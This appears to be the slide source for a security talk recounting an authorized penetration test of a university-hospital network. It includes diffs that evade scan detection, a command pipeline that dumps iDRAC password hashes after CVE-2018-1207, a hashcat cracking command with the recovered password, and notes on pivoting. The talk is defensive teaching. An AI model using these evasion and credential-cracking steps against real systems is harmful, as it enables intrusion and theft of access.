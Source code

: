 #+TITLE: A Scanner DRACly
#+SUBTITLE: A PenTest Story
#+DATE: 2021-06-10
#+REVEAL_ROOT: js/reveal.js-4.1.1
#+REVEAL_TRANS: cube
#+REVEAL_THEME: tomorrow_night
#+REVEAL_TITLE_SLIDE: <h1>%t<h1><h3>%s</h3><h4>%a<br>%d</h4><img style="position:absolute; top:250px; left:700px; width:150px; height:150px; transform: rotate(30deg)" src="img/cppc.png">
#+REVEAL_EXTRA_CSS: css/asciinema-player.css
#+REVEAL_EXTRA_SCRIPTS: ("js/asciinema-player.js")
#+REVEAL_PLUGINS: (highlight search notes)
#+REVEAL_INIT_SCRIPT: totalTime: 2400
#+REVEAL_EXTRA_CSS: css/custom.css

#+OPTIONS: timestamp:nil num:nil toc:nil
* About Me
  * Security Engineer @ UIUC, CMU, NCSA, ESnet
  * Core Zeek Developer
  * Consultant, focused on PenTesting
  * A few CVEs, a few CTF wins

#+begin_notes
  * Focused on tool development and defense
  * A chance to flex the offensive skillset
  * SANS CTF
#+end_notes
* What this Talk Is
  * The story of a PenTest
  * What defenses were in place
  * How they failed (and why it matters)
  * How they can be improved
  * How you can build up red-team expertise

#+begin_notes
   * Aashish and Jay talks at SPC, focused on defense
   * Attacker's point of view
#+end_notes
** What this Talk is NOT
  * A vendor pitch
  * A reflection of anyone else's views
  * Revolutionary
* PenTest Overview: Mission
  * Collaboration with a hospital on medical research
  * Scope was expanded with the school's COVID response
  * *Can an attacker access PHI?*
** Logistics
   * Determine scope
   * Client provided list of subnets and access to some Slack channels
   * I told the CSO when the test began and ended
   * External test: No access provided
   * Internal test: Virtual machine with no special access provided
* Open-Source Intelligence
  * Reverse DNS (=nmap -sL=)
  * Certificate Transparency Logs
** OSINT: EDU
  * InCommon Federation
  * eduroam
   #+attr_html: :width 500px
    [[./img/eduroam.png]]
** OSINT: EDU
  * Mailing lists
    #+begin_quote
    We monitor two full /16, 3 /24, and 2 partial /16, in front of any local FW devices.

    ...

    I switched to the bro-simple-scan package.
    #+end_quote
* Scanning
  * bro-simple-scan
   #+attr_html: :width 500px
    [[./img/simple_scan_bug.png]]
** bro-simple-scan
   #+begin_src ruby
    event connection_attempt(c: connection)
    {
-   if ( c$history == "S" )
+   if ( c$history == "S" || c$history == "SW")
    	add_scan(c$id);
    }
   #+end_src
** masscan
   #+begin_src c++
     static unsigned char default_tcp_template[] =
     // ...
-         "\x04\x0"     /* window fixed to 1024 */
+         "\x00\x0"     /* 0-sized window */
   #+end_src
** Update Zeek Packages
   #+attr_html: :width 500px
   [[./img/github_watch.png]]
** Zeek ssh/main.zeek
   #+begin_src ruby
     event ssh_auth_attempted(c: connection, authenticated: bool) {

     # ...

     # We can't accurately tell for compressed streams

     if ( c$ssh?$compression_alg && \
          ( c$ssh$compression_alg in compression_algorithms ) )
        return;
   #+end_src
* Scanning Demo
  #+REVEAL_HTML: <asciinema-player src="casts/masscan_demo.cast" preload="yes" poster="npt:0:03" theme="tomorrow-night-bright" rows=15></asciinema-player>
* Next Steps
  * Look at TLS certificates
  * Identify:
    * applications,
    * versions,
    * vulnerabilities
* CVE-2018-1207
   #+attr_html: :width 800px
    [[./img/drac_cve.png]]
** RCE Demo
  #+REVEAL_HTML: <asciinema-player src="casts/rce_demo.cast" preload="yes" poster="npt:0:03" theme="tomorrow-night-bright" rows=45></asciinema-player>
** Persistence
   * Until a reboot
   * Until an update
   * Forever?
     * Cron jobs
     * syslog-ng hooks
     * Overwrite an updated file?
** CVE Results
   #+attr_html: :width 580px
    [[./img/drac_results.png]]
** Recovering Credentials
   #+begin_src bash
   % root:sAcyG/RZbH7ScaJjXLO/kefW564eRXs4ilf+VX0f+K4=:2:1:Administrator:/flash/data0/home/root:/bin/sh:0x1FF...
   % ./drac_exec 10.87.5.42 | ./dump_hashes.sh
   10.87.5.42_root:F269FB2DA3CD3A842D15263736A57D51E55600819F195E678C3E8152ED3B5693:F77E82DAED468941C81D9B08AC755695
   #+end_src
** vast.ai
   #+attr_html: :width 500px
    [[./img/vast_ai.png]]
** Hashcat
   #+begin_src bash
   hashcat -O -a 3 -m 1410 hashes --username --hex-salt
   #+end_src
   #+begin_src bash
     f26...c755695:"C4tnapz!"
     Session..........: hashcat
     Status...........: Cracked
     Hash.Name........: sha256($pass.$salt)
     Hash.Target......: f269...755695
     Speed.#1.........:     9746.6 MH/s (70.35ms) @ Accel:8 Loops:1024 Thr:1024 Vec:1
     Speed.#2.........:     9507.4 MH/s (72.12ms) @ Accel:8 Loops:1024 Thr:1024 Vec:1
     Speed.#3.........:     9691.5 MH/s (70.75ms) @ Accel:8 Loops:1024 Thr:1024 Vec:1
     Speed.#4.........:     9641.1 MH/s (71.12ms) @ Accel:8 Loops:1024 Thr:1024 Vec:1
     Speed.#5.........:    10081.9 MH/s (68.01ms) @ Accel:8 Loops:1024 Thr:1024 Vec:1
     Speed.#6.........:     9043.4 MH/s (75.82ms) @ Accel:8 Loops:1024 Thr:1024 Vec:1
     Speed.#7.........:     9819.2 MH/s (69.83ms) @ Accel:8 Loops:1024 Thr:1024 Vec:1
     Speed.#8.........:     9642.4 MH/s (71.11ms) @ Accel:8 Loops:1024 Thr:1024 Vec:1
     Speed.Total......:    77173.6 MH/s
     Recovered........: 1/1 (100.00%) Digests
   #+end_src
* Pivoting
  * Find other management interfaces with the same credentials
  * Layer 2 attacks to other management interfaces
  * Scan non-management interfaces: https://github.com/ncsa/ssh-auditor
** Got root
  #+begin_src bash
  [root@proxy-01 ~]# w
  21:21:53 up 598 days,  8:38,  1 user,  load average: 0.00, 0.01, 0.05
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  root     pts/0    vlad-pentest 21:21    1.00s  0.00s  0.00s w
  #+end_src
  #+REVEAL_HTML: <img src="https://thumbs.gfycat.com/ElderlyFarawayCrossbill.webp"></img>
* Layer 2 Attacks
  #+begin_src bash
  2: eno16180012: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:81:fa:08 brd ff:ff:ff:ff:ff:ff
    inet "100.120.95.17/21" brd 100.120.99.255 scope global noprefixroute eno16180012
  #+end_src
** Bettercap
   https://bettercap.org
   #+attr_html: :width 500px
   [[./img/bettercap.png]]
* Findings
   #+attr_html: :width 500px
   [[./img/findings.png]]
* Trash                                                            :noexport:
#####+REVEAL_INIT_SCRIPT: parallaxBackgroundImage: "./background.jpg", parallaxBackgroundSize: "6211px 1686px"

